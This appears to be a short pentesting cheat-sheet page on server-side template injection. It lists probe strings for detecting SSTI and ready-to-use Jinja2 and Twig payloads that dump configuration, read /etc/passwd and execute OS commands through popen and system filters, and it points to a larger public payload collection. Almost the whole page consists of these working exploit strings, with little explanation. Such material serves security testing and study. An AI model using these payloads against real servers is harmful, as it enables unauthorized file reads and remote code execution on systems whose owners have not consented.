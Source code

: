 ```yaml
---
description: >-
  Server-side Template Injection (SSTI) occurs when an attacker can inject
  templating code into a template that is later rendered by the server
---
```


# SSTI

<figure><img src="../.gitbook/assets/image (94).png" alt=""><figcaption></figcaption></figure>

#### Identify

```bash
# Check for return of 49
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
{7*7}
%{7*7}
```

#### Jinja2

```bash
# Config
{{ config.items() }}

# Globals
{{ self.__init__.__globals__.__builtins__ }}

# LFI
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}

# RCE
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

#### Twig

```bash
# Get info
{{ _self }}

# Read file
{{ "/etc/passwd"|file_excerpt(1,-1) }}

# RCE 
{{ ['id'] | filter('system') }}
```

More payloads at:[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
